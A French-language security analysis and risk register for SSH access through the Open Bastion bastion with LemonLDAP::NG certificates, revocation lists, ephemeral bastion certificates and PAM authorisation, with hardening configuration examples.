




# Analyse de Sécurité - Connexion SSH

## 1. Cible de Sécurité

Cette analyse porte sur la cible de sécurité maximale d'Open Bastion, qui combine :

- **Bastion** : point d'entrée unique pour toutes les connexions SSH
- **SSH CA** : certificats signés par la CA LemonLDAP::NG (validité 1 an)
- **Certificats uniquement** : `AuthorizedKeysFile none` (pas de clés non signées)
- **KRL obligatoire** : révocation centralisée via Key Revocation List
- **sudo via token LLNG** : réauthentification SSO pour chaque escalade de privilèges
- **Certificat éphémère bastion** : preuve cryptographique de l'origine des connexions vers les backends (vouching par certificat signé par la CA LLNG)

> **Note** : D'autres architectures moins restrictives sont possibles (serveur isolé sans CA, sans bastion, avec mots de passe). Elles offrent un niveau de sécurité inférieur et ne sont pas couvertes par cette analyse.

### Acteurs

| Acteur           | Rôle                                           |
| ---------------- | ---------------------------------------------- |
| **Utilisateur**  | Personne se connectant en SSH                  |
| **Client SSH**   | Machine de l'utilisateur (laptop, workstation) |
| **Bastion**      | Point d'entrée unique pour les connexions SSH  |
| **Backend**      | Serveur accessible uniquement via le bastion   |
| **Portail LLNG** | Serveur d'authentification/autorisation        |
| **SSH CA**       | Autorité de certification pour les clés SSH    |

---

## 2. Architecture

### Vue d'ensemble


```mermaid
flowchart TB
    subgraph Infrastructure
        CA[SSH CA<br/>signe les certificats<br/>validité 1 an]
        LLNG[Portail LLNG<br/>SSO + PAM authorize<br/>KRL /ssh/revoked]
        KRL[KRL<br/>revoked_keys]

        CA -->|Certificat signé| Client

        subgraph ConnectionFlow["Flux de connexion"]
            Client[Client SSH<br/>cert signé CA] -->|1. ssh bastion| Bastion[Bastion<br/>PAM LLNG<br/>TrustedCA + KRL<br/>AuthorizedKeysFile none]
            Bastion -->|2. ob-ssh + cert éphémère| Backend[Backend<br/>PAM LLNG<br/>TrustedCA + KRL<br/>AuthorizedKeysFile none<br/>TrustedUserCAKeys + source-address]
        end

        LLNG -->|KRL toutes 30 min| KRL
        KRL -->|RevokedKeys| Bastion
        KRL -->|RevokedKeys| Backend

        Bastion -->|Vérifie cert +<br/>autorise via LLNG| LLNG
        Backend -->|Vérifie cert éphémère +<br/>autorise via LLNG| LLNG
    end
```

### Flux complet

#### 1. Obtention du certificat (1x/an)

```bash
# Sur le poste client : obtenir un certificat signé par la CA LLNG
ob-ssh-cert --portal https://auth.example.com
# → Certificat stocké dans ~/.ssh/id_ed25519-cert.pub (validité 1 an)
# → La clé privée ~/.ssh/id_ed25519 ne change pas
```

#### 2. Connexion SSH via bastion

```mermaid
sequenceDiagram
    participant Client as Client SSH<br/>(cert 1 an)
    participant Bastion as Bastion<br/>(TrustedCA + KRL)
    participant Backend as Backend<br/>(TrustedCA + KRL + cert éphémère)
    participant LLNG as Portail LLNG

    Note over Client: 1x/an : ob-ssh-cert<br/>→ certificat signé CA

    Client->>Bastion: 1. ssh dwho@bastion<br/>(présente certificat)
    Note over Bastion: 2. Vérifie signature CA<br/>Vérifie KRL (non révoqué)
    Bastion->>LLNG: 3. PAM: /pam/authorize<br/>user=X, host=bastion<br/>→ voucher(bastion_id, user) stocké
    LLNG-->>Bastion: 4. authorized: true + voucher
    Note over Bastion: 4b. pam_putenv("LLNG_BASTION_VOUCHER=…")
    Note over Client: 5. Sur le bastion :<br/>ob-ssh backend
    Note over Bastion: 6. Génère paire de clés éphémère ed25519<br/>(clé privée ne quitte pas le bastion)
    Bastion->>LLNG: 7. ob-cert-request via socket Unix<br/>→ ob-cert-daemon déduit user via SO_PEERCRED<br/>POST /pam/bastion-cert<br/>Bearer=jeton_serveur_bastion<br/>body={user, target_host, clé_pub_éphémère, voucher}
    Note over LLNG: 8. Vérifie voucher (bastion_id, user)<br/>Vérifie gardes (grant device_code,<br/>server_group ∈ pamAccessBastionGroups)<br/>Signe clé_pub_éphémère avec CA ssh-ca
    LLNG-->>Bastion: 9. Certificat éphémère (~120s)<br/>principal=user, source-address=IP_bastion<br/>key-id=bastion=<id>;user=<u>;target=<h>
    Bastion->>Backend: 10. ssh -i <clé_éph> -o CertificateFile=<cert><br/>(ré-origination : le bastion s'authentifie)
    Note over Backend: 11. sshd : vérifie CA, fenêtre de validité,<br/>source-address (IP bastion), principal<br/>AuthorizedPrincipalsCommand : key-id bastion=<id>;<br/>bastion_id ∈ /etc/open-bastion/allowed_bastions
    Backend->>LLNG: 12. PAM: /pam/authorize<br/>user=X, host=backend
    LLNG-->>Backend: 13. authorized: true
    Backend-->>Client: 14. Session SSH établie
```

> **Pourquoi `ob-ssh` et non ProxyJump ?** Le mécanisme SSH natif `ProxyJump` (`ssh -J`) fait transiter la connexion par le bastion, mais c'est le **client** qui négocie directement avec le backend. Le bastion n'a donc aucune opportunité de s'authentifier avec un certificat éphémère en son propre nom. `ob-ssh` résout ce problème : il s'exécute **sur le bastion**, obtient un certificat utilisateur éphémère (~120 s) via `POST /pam/bastion-cert` (invoqué par `ob-cert-request` connecté au socket Unix `/run/open-bastion/cert.sock` servi par `ob-cert-daemon` socket-activé), puis ouvre la connexion SSH vers le backend avec cette clé et ce certificat éphémères. Le backend vérifie le certificat nativement (CA, `source-address`, `AuthorizedPrincipalsCommand`) pour s'assurer que la connexion provient bien d'un bastion autorisé et que l'utilisateur y est bien connecté (voucher).

#### 3. Escalade de privilèges (sudo)


```mermaid
sequenceDiagram
    participant Client as Client SSH<br/>(session active)
    participant Backend as Backend SSH
    participant LLNG as Portail LLNG
    participant Admin as Portail LLNG<br/>(navigateur)

    Note over Client: Pour chaque sudo :
    Client->>Admin: 1. Demande token<br/>sur portail LLNG
    Note over Admin: 2. Authentification SSO<br/>(2FA si configuré)
    Admin-->>Client: 3. Token temporaire<br/>(5-60 min, usage unique)
    Client->>Backend: 4. sudo command<br/>(entre token LLNG)
    Backend->>LLNG: 5. PAM: /pam/verify (token)<br/>+ /pam/authorize (sudo)
    LLNG-->>Backend: 6. token valid +<br/>sudo_allowed: true
    Backend-->>Client: 7. Commande exécutée avec privilèges
```

### Configuration sshd (bastion et backends)

```bash
# /etc/ssh/sshd_config
TrustedUserCAKeys /etc/ssh/open-bastion_ca.pub   # CA LLNG uniquement
AuthorizedKeysFile none                           # Pas de clés non signées
RevokedKeys /etc/ssh/revoked_keys                 # KRL obligatoire
ExposeAuthInfo yes                                # Requis pour SSH_CERT_* variables
AllowAgentForwarding no                           # Pas de forwarding agent (sécurité)
PermitRootLogin no                                # Root uniquement via console (ttyS0)
AuthorizedPrincipalsCommand /usr/local/sbin/ob-ssh-principals %u %f %i
AuthorizedPrincipalsCommandUser nobody
```

> **Note `AuthorizedPrincipalsCommand` :** Sur le **bastion**, `ob-ssh-principals` n'émet le principal que si le certificat est un certificat utilisateur ordinaire (key-id sans `bastion=`), afin d'accepter les connexions des utilisateurs finaux. Sur les **backends**, `ob-ssh-principals` n'émet le principal QUE si le key-id est de la forme `bastion=<id>;user=<u>;...`, que `<u>` correspond à l'utilisateur de login, et que `<id>` figure dans `/etc/open-bastion/allowed_bastions`. Ainsi, un certificat SSO direct (key-id sans `bastion=`) est refusé par sshd avant même PAM. Le token `%i` est nécessaire car sshd standard ne peuple pas `SSH_CERT_KEY_ID` dans l'environnement de la commande. `ob-bastion-setup` et `ob-backend-setup` configurent cette directive automatiquement.

### Configuration PAM (sshd)

```
# /etc/pam.d/sshd
auth       required     pam_openbastion.so
account    required     pam_openbastion.so
```

### Configuration PAM (sudo)

```
# /etc/pam.d/sudo
auth       required     pam_openbastion.so   service=sudo
account    required     pam_openbastion.so   service=sudo
```

> **Note Mode E :** La ligne `account required pam_unix.so` est **absente** du stack sudo. `pam_unix.so` est incompatible avec les utilisateurs NSS-only (résolution dynamique via `openbastion` dans `nsswitch.conf`) : il échouerait pour tout utilisateur n'ayant pas d'entrée dans `/etc/passwd`. L'autorisation repose sur une approche **defense-in-depth** : le fichier `/etc/sudoers.d/open-bastion` n'autorise que les membres du groupe `open-bastion-sudo` (`%open-bastion-sudo ALL=(ALL) ALL`), et l'appartenance à ce groupe est gérée dynamiquement par le module PAM lors de l'ouverture de session SSH (basé sur `sudo_allowed`). Ainsi, même en cas de défaillance du module PAM lors de l'authentification sudo, les utilisateurs non autorisés sont bloqués par sudoers avant l'invocation de PAM.

### Configuration Open Bastion (backends)

```ini
# /etc/open-bastion/openbastion.conf sur les backends
portal_url = https://auth.example.com
server_group = backend-prod
verify_ssl = true

# Politique de clés SSH (CA obligatoire, pas de clés faibles)
ssh_key_policy_enabled = true
ssh_key_allowed_types = ed25519, sk-ed25519, sk-ecdsa
```

> **Paramètres JWT bastion supprimés.** Les clés `bastion_jwt_*` (et la ligne `AcceptEnv LLNG_BASTION_JWT` dans `sshd_config`) ont été retirées : le mécanisme JWT bastion était structurellement cassé (`SendEnv`/`AcceptEnv` ne peuplent que l'environnement du processus enfant SSH, jamais l'environnement PAM que `pam_getenv` lit — le backend avec `bastion_jwt_required=true` rejetait donc toutes les sessions). Il est remplacé par le vouching par certificat éphémère décrit ci-dessus. L'allowlist des bastions se configure désormais via `ob-backend-setup --allowed-bastions <client_ids>`, qui écrit `/etc/open-bastion/allowed_bastions` et câble `AuthorizedPrincipalsCommand`.

```bash
# /etc/ssh/sshd_config sur les backends (ajout pour le vouching par certificat)
# L'option source-address du certificat éphémère est vérifiée nativement par sshd.
# Aucun AcceptEnv n'est nécessaire.
```

### Restriction réseau des backends

```bash
# /etc/ssh/sshd_config sur les backends
ListenAddress 10.0.0.0  # Réseau privé uniquement

# Firewall sur les backends
iptables -A INPUT -p tcp --dport 22 -s 10.0.0.1 -j ACCEPT  # IP bastion
iptables -A INPUT -p tcp --dport 22 -j DROP
# Security groups (cloud) : Backend SG → SSH (22) depuis Bastion-SG uniquement
```

### Transport du voucher bastion (côté bastion)

Le voucher `LLNG_BASTION_VOUCHER` est propagé par PAM (transport **local au bastion**, sans `SendEnv`/`AcceptEnv`). À la connexion de l'utilisateur sur le bastion, `pam_openbastion` reçoit le voucher via la réponse `/pam/authorize` et l'exporte avec `pam_putenv("LLNG_BASTION_VOUCHER=…")`. OpenSSH fusionne l'environnement PAM dans la session via `pam_getenvlist` (directive `UsePAM yes`), ce qui rend la variable disponible dans le shell de l'utilisateur sur le bastion. `ob-ssh` la lit directement depuis son propre environnement ; aucun `AcceptEnv` ni `SendEnv` n'est nécessaire — et ce transport fonctionne là où `SendEnv` échouait, car `pam_getenv` lit bien l'environnement PAM local.

```bash
# Aucune directive AcceptEnv n'est nécessaire sur les backends.
# Sur le bastion, UsePAM yes (défaut) suffit pour que le voucher soit
# disponible dans la session de l'utilisateur.
```

### Durée de vie des certificats SSH

Avec le module PAM LLNG, la durée de vie du certificat SSH a peu d'impact sur la sécurité car :

```
┌──────────────────────┐         ┌─────────────────────┐
│  Certificat SSH      │         │   /pam/authorize    │
│  (authentification)  │ ──────► │   (autorisation)    │
│                      │         │                     │
│  "Qui suis-je ?"     │         │  "Ai-je le droit ?" │
└──────────────────────┘         └─────────────────────┘
         │                                  │
         │                                  ▼
         │                       • Compte actif ?
         │                       • Membre des bons groupes ?
         │                       • server_group autorisé ?
         ▼
   Validité : 1 an
   (le vrai verrou est /pam/authorize)
```

**Le vrai verrou est `/pam/authorize`** : même avec un certificat valide, l'accès est refusé si le compte est désactivé ou retiré des groupes autorisés dans LLNG.

Une durée **longue (1 an)** est acceptable car :

1. **La révocation se fait côté LLNG** : désactivation du compte ou retrait des groupes → effet immédiat via `/pam/authorize`
2. **`/pam/authorize` est vérifié à chaque connexion** : un certificat valide ne suffit pas
3. **La KRL via `/ssh/admin`** permet la révocation immédiate du certificat si nécessaire
4. **`AuthorizedKeysFile none`** : les utilisateurs ne peuvent pas contourner en ajoutant leur clé dans `~/.ssh/authorized_keys`
5. **UX optimale** : l'utilisateur obtient son certificat une fois par an via `ob-ssh-cert`

#### Workflow utilisateur

```bash
# Une seule fois : générer sa clé SSH
ssh-keygen -t ed25519 -f ~/.ssh/id_ed25519

# Une fois par an : renouveler le certificat via LLNG
ob-ssh-cert --portal https://auth.example.com
# → ~/.ssh/id_ed25519-cert.pub mis à jour
# → ssh-agent n'a pas besoin d'être rechargé
```

### KRL (Key Revocation List)

La KRL est le mécanisme de révocation immédiate des certificats. Elle est maintenue par LLNG et distribuée automatiquement :

```bash
# Téléchargement depuis LLNG
curl -sf -o /etc/ssh/revoked_keys https://auth.example.com/ssh/revoked

# Cron de rafraîchissement (toutes les 30 min)
# /etc/cron.d/open-bastion-krl
*/30 * * * * root curl -sf -o /etc/ssh/revoked_keys.tmp https://auth.example.com/ssh/revoked && mv /etc/ssh/revoked_keys.tmp /etc/ssh/revoked_keys

# Monitoring : alerter si KRL > 1h sans mise à jour
*/15 * * * * root find /etc/ssh/revoked_keys -mmin +60 -exec echo "KRL stale" \;
```

**Révocation d'un certificat compromis :**

```bash
# Côté LLNG (admin) : révoquer via l'interface /ssh/admin
# → La KRL est mise à jour immédiatement
# → Propagation sur les serveurs dans les 30 min suivantes (cron)
# → Fenêtre d'exposition maximale : 30 min
```

### Binding fingerprint SSH sur `/pam/authorize` et `/pam/verify` (défense en profondeur)

Depuis le plugin PamAccess ≥ 0.1.16, le module PAM `pam_openbastion` transmet à LLNG l'empreinte SHA256 de la clef SSH utilisée pour la connexion, dans le corps des requêtes `POST /pam/authorize` (phase `account`, à chaque connexion SSH) **et** `POST /pam/verify` (vérification d'un token PAM à usage unique pour sudo/ré-auth).

**Récupération de l'empreinte côté bastion.** OpenSSH moderne (≥ 9.x) ne propage pas `SSH_USER_AUTH` à l'environnement PAM pendant `pam_acct_mgmt` — `ExposeAuthInfo yes` ne suffit donc pas. Le bastion utilise un canal explicite :

1. `sshd` appelle `AuthorizedPrincipalsCommand /usr/local/sbin/ob-ssh-principals %u %f` (déployé par `ob-bastion-setup` / `ob-backend-setup`). Le token `%f` est l'empreinte de la clef/du certificat client (pas `%F` qui désigne l'empreinte de la CA).
2. Le helper écrit l'empreinte dans `/run/open-bastion/ssh-fp/<sshd-session-pid>.fp` de façon atomique (`mktemp` + `mv`). Le répertoire est la propriété de l'utilisateur `AuthorizedPrincipalsCommandUser` (typiquement `nobody`), en mode `0700` : aucun autre utilisateur local ne peut créer ou pré-positionner un fichier factice.
3. `pam_openbastion` remonte `/proc/<pid>/status` depuis son propre PID jusqu'à l'ancêtre `sshd-session` et lit le fichier spool. Il valide strictement : fichier régulier appartenant à l'owner du répertoire, mode `0600`, `nlink == 1`, format `SHA256:<base64>`, taille ≤ 512 octets.

En repli, si un `sshd` patché peuple réellement `SSH_USER_AUTH` avec le contenu, le module extrait l'empreinte depuis cette variable. Exemples de corps de requête envoyés :

```json
// POST /pam/authorize — ouverture de session SSH
{
  "user": "dwho",
  "host": "backend-01",
  "service": "sshd",
  "server_group": "production",
  "ssh_cert": { "key_id": "...", "serial": "...", ... },
  "fingerprint": "SHA256:<base64>"
}

// POST /pam/verify — sudo / ré-authentification par token
{
  "token": "<token PAM à usage unique>",
  "fingerprint": "SHA256:<base64>"
}
```

LLNG effectue dans les **deux** handlers la même vérification croisée contre la **session persistante** de l'utilisateur (`_sshCerts`) :

1. Le champ `fingerprint` doit respecter le format strict `SHA256:<base64>` (sinon `HTTP 400`, audit `PAM_AUTH[Z]_SSH_FP_MALFORMED`).
2. L'empreinte doit être présente dans la liste des certificats émis par le plugin SSHCA pour cet utilisateur.
3. Le certificat correspondant ne doit pas porter de marqueur `revoked_at`.
4. Le certificat ne doit pas être expiré (`expires_at`).

Si l'une des conditions 2-4 n'est pas remplie :

- sur `/pam/authorize`, LLNG répond `{"authorized": false, "reason": "SSH fingerprint not recognized"}` (audit `PAM_AUTHZ_SSH_FP_REJECTED`) — **la connexion SSH est refusée au niveau PAM account**, même si `sshd` a accepté le certificat.
- sur `/pam/verify`, LLNG répond `{"valid": false, "error": "SSH fingerprint not recognized"}` et le token PAM est consommé (audit `PAM_AUTH_SSH_FP_REJECTED`) — l'escalade sudo est bloquée.

**Niveaux de défense apportés :**

| Contrôle                                  | Où ?     | Couvre                                                                                                                                                |
| ----------------------------------------- | -------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| `RevokedKeys` (KRL locale)                | `sshd`   | Authentification SSH avec certificat révoqué (mécanisme principal, toujours requis)                                                                   |
| **Binding fingerprint `/pam/authorize`**  | **LLNG** | **Ouverture de session SSH avec un certificat inconnu, révoqué ou expiré côté LLNG, même si `sshd` l'a accepté (KRL stale ou `RevokedKeys` oubliée)** |
| `/pam/authorize` (autorisation classique) | LLNG     | Utilisateur désactivé ou sans droit sur le `server_group`                                                                                             |
| **Binding fingerprint `/pam/verify`**     | **LLNG** | **sudo / ré-authentification par token : rejet si le cert de la session SSH est inconnu, révoqué ou expiré côté LLNG**                                |
| **Présence dans la session persistante**  | **LLNG** | **Token volé à un utilisateur et rejoué depuis une autre clef SSH : l'empreinte ne correspond à aucun cert du `sub` du token**                        |

`ob-bastion-setup` et `ob-backend-setup` déploient automatiquement `ob-ssh-principals` + le répertoire spool (mode `0700`, propriétaire `nobody`) + un drop-in `/etc/tmpfiles.d/` pour recréation au boot. Côté LLNG, le champ `fingerprint` reste optionnel : un bastion à jour contre un portail antérieur à PamAccess 0.1.16 reste compatible (le portail ignore simplement le champ).

---

## 3. Analyse des Risques

### Échelle de cotation

| Score | Probabilité     | Impact      |
| ----- | --------------- | ----------- |
| 1     | Très improbable | Négligeable |
| 2     | Peu probable    | Limité      |
| 3     | Probable        | Important   |
| 4     | Très probable   | Critique    |

---

### R-S3 - Certificat SSH compromis

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   3   |

**Description :** Un certificat SSH volé permet un accès limité dans le temps (1 an de validité). Contrairement aux certificats courts (8-24h) qui expirent naturellement, un certificat compromis d'1 an reste valide longtemps sans intervention explicite. La **KRL devient le contrôle compensatoire principal**.

**Vecteurs d'attaque :**

- Compromission du poste client (malware, backup non chiffré)
- Clé privée sans passphrase
- Malware voleur de certificats

**Facteurs atténuants :**

- Révocation immédiate via LLNG `/ssh/admin` → KRL propagée en 30 min
- Le serial permet d'identifier précisément le certificat compromis
- **Binding fingerprint sur `/pam/authorize` (plugin PamAccess ≥ 0.1.16) :** à chaque connexion SSH, `pam_openbastion` envoie l'empreinte SHA256 de la clef utilisée, extraite de `SSH_USER_AUTH`. LLNG refuse l'autorisation (donc l'ouverture de la session SSH, via la phase `account` de PAM) si l'empreinte n'est pas présente dans la session persistante de l'utilisateur (`_sshCerts`), ou si le certificat correspondant est révoqué ou expiré côté LLNG. Ce filet de défense en profondeur bloque la session même si un certificat révoqué a franchi `sshd` à cause d'une KRL obsolète ou manquante.
- **Binding fingerprint sur `/pam/verify` :** la même vérification est effectuée lors de toute utilisation d'un token PAM (sudo, ré-authentification), fermant l'escalade privilège dans la même logique.

**Remédiation embarquée :**

- KRL vérifiée par `sshd` avant PAM (rejet immédiat si révoqué, mécanisme principal)
- `/pam/authorize` refuse l'ouverture de session si la clef n'est pas active/non-révoquée/non-expirée côté LLNG (filet de secours vs KRL stale)
- `/pam/verify` applique le même contrôle au moment du token (sudo, ré-auth)
- Audit complet avec `key_id`, `serial`, et codes `PAM_AUTHZ_SSH_FP_REJECTED` / `PAM_AUTH_SSH_FP_REJECTED`

**Remédiation configuration :**

```bash
# Clés avec passphrase obligatoire
ssh-keygen -t ed25519 -a 100 -f ~/.ssh/id_ed25519
# -a 100 : 100 rounds de dérivation (protection brute-force passphrase)

# Utiliser ssh-agent avec timeout
ssh-add -t 8h ~/.ssh/id_ed25519
```

|                 |                                        Score résiduel                                         |
| --------------- | :-------------------------------------------------------------------------------------------: |
| **Probabilité** |                            2 (compromission poste client possible)                            |
| **Impact**      | 1 (KRL + binding fingerprint LLNG sur `/pam/authorize` et `/pam/verify` bloquent SSH et sudo) |

---

### R-S4 - Compromission de la CA SSH

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   1   |
| **Impact**      |   4   |

**Description :** Si la clé privée de la CA SSH est compromise, l'attaquant peut émettre des certificats pour n'importe quel utilisateur.

**Vecteurs d'attaque :**

- Compromission du serveur hébergeant la CA
- Backup non chiffré de la clé CA
- Insider malveillant

**Conséquence :** Accès total à tous les serveurs faisant confiance à cette CA. Toutefois, l'attaquant devra toujours passer `/pam/authorize` qui vérifie que l'utilisateur est actif et autorisé côté LLNG.

**Remédiation configuration :**

```bash
# CA sur machine air-gapped ou HSM
# Clé CA avec passphrase forte
ssh-keygen -t ed25519 -a 100 -f /secure/ca_key -C "SSH CA"

# Permissions strictes
chmod 400 /secure/ca_key
```

**Remédiation procédurale :**

- CA sur machine dédiée, non connectée au réseau
- Signature des certificats via processus audité
- Rotation périodique de la CA

**Remédiation architecturale :**

- Utiliser un HSM pour stocker la clé CA
- Short-lived CA (renouvellement régulier)

|                 | Score résiduel |
| --------------- | :------------: |
| **Probabilité** |       1        |
| **Impact**      |       4        |

---

### R-S5 - Contournement du bastion

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   1   |
| **Impact**      |   3   |

**Description :** Tentative d'accès direct aux backends sans passer par le bastion. En cible de sécurité maximale, ce risque est fortement réduit car les backends exigent un certificat CA LLNG **éphémère et signé pour ce bastion précis**, avec une option `source-address` épinglée à l'IP du bastion.

**Vecteurs d'attaque :**

- Backends avec SSH ouvert sur IP publique (mauvaise configuration)
- Règles firewall permissives
- VPN donnant accès direct au réseau des backends

**Facteurs atténuants en cible maximale :**

- `AuthorizedKeysFile none` + `TrustedUserCAKeys` : sans certificat CA LLNG, rejet par sshd avant même PAM
- `AuthorizedPrincipalsCommand ob-ssh-principals` : un certificat SSO direct (key-id sans `bastion=`) est refusé par sshd avant PAM ; seul un certificat éphémère avec key-id `bastion=<id>;user=<u>;...` est accepté
- Option `source-address` dans le certificat éphémère : sshd refuse nativement le certificat si la connexion ne provient pas de l'IP du bastion qui l'a obtenu
- Restriction réseau : backends non accessibles hors bastion (firewall/security groups)

**Remédiation configuration (défense en profondeur) :**

```bash
# Sur les backends : double protection
# 1. Réseau : firewall n'accepte que l'IP bastion
iptables -A INPUT -p tcp --dport 22 -s <IP_BASTION> -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j DROP

# 2. Cryptographique : certificat éphémère avec source-address obligatoire
# (même si les restrictions réseau sont contournées via VPN,
#  l'option source-address du certificat bloque toute présentation hors bastion)
```

**Vérification :**

```bash
# Depuis l'extérieur, doit échouer même avec credentials valides :
ssh backend.internal.example.com
# sshd: certificate presented from wrong source address (source-address critical option)
# ou : Permission denied (publickey) si pas de cert éphémère bastion

# Depuis le bastion via ob-ssh, doit fonctionner :
ob-ssh backend.internal.example.com
```

|                 |                           Score résiduel                            |
| --------------- | :-----------------------------------------------------------------: |
| **Probabilité** | 1 (cert éphémère + source-address + allowlist + restriction réseau) |
| **Impact**      |                                  3                                  |

---

### R-S6 - Compromission du bastion

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   4   |

**Description :** Si le bastion est compromis, l'attaquant a potentiellement accès à tous les backends.

**Vecteurs d'attaque :**

- Exploit sur le bastion (vulnérabilité SSH, système)
- Credentials volés d'un admin bastion
- Supply chain attack

**Conséquence :**

- Interception des connexions transitant par le bastion
- Pivot vers les backends : le bastion compromis peut obtenir des certificats éphémères légitimes via son jeton serveur root pour tout utilisateur disposant d'un voucher actif
- Accès aux backends pour les utilisateurs actifs dans LLNG

**Facteurs atténuants :**

- PAM LLNG sur les backends = double vérification : chaque accès backend est vérifié indépendamment
- `AllowAgentForwarding no` : pas de vol de clé via agent forwarding
- Même depuis un bastion compromis, l'attaquant doit avoir des credentials utilisateur valides côté LLNG

**Remédiation configuration :**

```bash
# Interdire l'agent forwarding sur le bastion
# /etc/ssh/sshd_config
AllowAgentForwarding no

# Utiliser ob-ssh (pas ProxyJump natif, qui contournerait le vouching par certificat)
# ~/.ssh/config
Host backend
    ProxyCommand ssh bastion ob-ssh %h %p
```

**Remédiation procédurale :**

- Bastion durci (CIS benchmark)
- Pas de comptes utilisateurs sur le bastion (passage uniquement)
- Monitoring renforcé du bastion
- Séparation des rôles : le bastion ne peut pas modifier les autorisations LLNG

|                 |         Score résiduel         |
| --------------- | :----------------------------: |
| **Probabilité** |               2                |
| **Impact**      | 3 (avec PAM LLNG sur backends) |

---

### R-S7 - Serveur LLNG indisponible

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   3   |

**Description :** Si LLNG est indisponible, les nouvelles connexions SSH ne peuvent pas être autorisées (sauf cache).

**Vecteurs d'attaque :**

- Panne réseau entre serveurs SSH et LLNG
- DoS sur LLNG
- Maintenance LLNG

**Conséquence :** Les utilisateurs ne peuvent plus se connecter aux serveurs.

**Remédiation embarquée :**

- Cache d'authentification offline (`src/auth_cache.c`)
- Les utilisateurs précédemment autorisés peuvent continuer à se connecter

**Remédiation configuration :**

```ini
# /etc/open-bastion/openbastion.conf
auth_cache = true
auth_cache_ttl = 3600        # 1 heure de cache
auth_cache_offline_ttl = 86400  # 24h si LLNG indisponible
```

**Remédiation infrastructure :**

- LLNG en haute disponibilité
- Plusieurs portails LLNG (failover)

|                 |     Score résiduel     |
| --------------- | :--------------------: |
| **Probabilité** |      1 (avec HA)       |
| **Impact**      | 2 (avec cache offline) |

---

### R-S8 - Session SSH persistante après révocation

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   3   |
| **Impact**      |   2   |

**Description :** Une session SSH déjà établie n'est pas terminée si l'utilisateur est révoqué dans LLNG.

**Vecteurs d'attaque :**

- Utilisateur révoqué maintient une session ouverte
- Screen/tmux avec session persistante

**Conséquence :** L'utilisateur révoqué conserve son accès tant que la session est active. Toutefois, il ne peut **pas escalader les privilèges via sudo** sans obtenir un nouveau token LLNG (qui sera refusé si révoqué).

**Remédiation configuration :**

```bash
# /etc/ssh/sshd_config
ClientAliveInterval 300      # Ping toutes les 5 min
ClientAliveCountMax 2        # Déconnexion après 2 échecs

# Timeout de session
# /etc/profile.d/timeout.sh
TMOUT=3600  # Déconnexion après 1h d'inactivité
```

**Remédiation procédurale :**

- Script de révocation qui tue les sessions actives :

```bash
# Lors de la révocation d'un utilisateur
pkill -u $USERNAME -KILL
```

|                 | Score résiduel |
| --------------- | :------------: |
| **Probabilité** |       2        |
| **Impact**      |       2        |

---

### R-S9 - Interception ou vol du certificat éphémère bastion

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   1   |
| **Impact**      |   2   |

**Description :** Un attaquant qui intercepte un certificat éphémère en transit (ou le vole dans le tmpfs du bastion) tente de l'utiliser pour accéder à un backend.

**Vecteurs d'attaque :**

- MITM entre bastion et backend (rare si réseau interne)
- Accès root au bastion permettant de lire le tmpfs avant effacement

**Facteurs atténuants structurels :**

- **Durée de vie ~120 s** (`pamAccessBastionCertTtl`, défaut : 120 s) : la fenêtre d'exploitation est très courte ; le certificat est effacé du tmpfs dès la fin de la connexion
- **Option `source-address` critique** : sshd refuse nativement le certificat si la connexion ne provient pas de l'IP du bastion émetteur — un certificat volé est inutilisable depuis une autre machine
- **`target_host` enregistré dans le key-id** (`bastion=<id>;user=<u>;target=<h>`) : tracé à des fins d'audit. Note : `ob-ssh-principals` n'enforce que `bastion=<id>` (allowlist) et `user=<u>` — il **ne vérifie pas** `target=`, donc le certificat n'est pas restreint à un backend précis ; c'est `source-address` qui le restreint au bastion émetteur
- La clé privée éphémère ne quitte jamais le bastion (tmpfs, effacée à la sortie) : seul le certificat signé transite sur le réseau

**Remédiation configuration :**

```yaml
# LLNG Manager - Réduire la durée de vie du certificat éphémère
pamAccessBastionCertTtl: 60 # 1 minute au lieu de 2 (si politique plus stricte)
```

|                 |                          Score résiduel                          |
| --------------- | :--------------------------------------------------------------: |
| **Probabilité** | 1 (source-address + TTL très court + clé privée jamais exportée) |
| **Impact**      |        2 (usurpation limitée au backend cible si bypass)         |

---

### R-S10 - Voucher bastion expiré ou révocation de la CA ssh-ca

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   1   |
| **Impact**      |   2   |

**Description :** Deux scénarios de rupture de confiance sur la chaîne vouching → certificat : (a) le voucher `(bastion_id, user)` a expiré ou le certificat SSO de l'utilisateur a été révoqué ; (b) la clé CA ssh-ca a été compromise ou renouvelée et les backends n'ont pas encore le nouveau `TrustedUserCAKeys`.

**Cas a — Voucher expiré :**

- **Comportement fail-closed :** `/pam/bastion-cert` renvoie `reason: voucher_expired` ; `ob-ssh` affiche une erreur claire (« Votre autorisation bastion a expiré — reconnectez-vous au bastion ») et sort en erreur. L'utilisateur se reconnecte au bastion (normal), PAM rejoue `/pam/authorize` et émet un nouveau voucher.
- **Validité du voucher :** `min(now + pamAccessBastionVoucherTtl [défaut 43200 s = 12 h], expires_at du certificat SSO de l'utilisateur)` — la révocation SSO invalide donc le voucher sans délai supplémentaire.
- Pas de re-vouching silencieux : la reconnexion est la preuve de présence auditable.

**Cas b — Rotation ou compromission de la CA ssh-ca :**

- En cas de rotation planifiée, mettre à jour `TrustedUserCAKeys` sur les backends **avant** la rotation (même procédure que la CA utilisateur).
- En cas de compromission : remplacer immédiatement la CA et mettre à jour `TrustedUserCAKeys` sur tous les backends ; les certificats éphémères (~120 s) expirent très rapidement, limitant la fenêtre d'exploitation.

```yaml
# LLNG Manager - Ajuster le plafond TTL du voucher
pamAccessBastionVoucherTtl: 43200 # 12 h (défaut)
pamAccessBastionCertTtl: 120 # 2 min (défaut)
```

|                 |                           Score résiduel                           |
| --------------- | :----------------------------------------------------------------: |
| **Probabilité** |         1 (fail-closed, TTL court du cert, lié à SSO cert)         |
| **Impact**      | 1 (expiration propagée ; cert ~120 s limite l'exposition en cas b) |

---

### R-S11 - Utilisation de clés SSH faibles ou obsolètes

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   3   |
| **Impact**      |   3   |

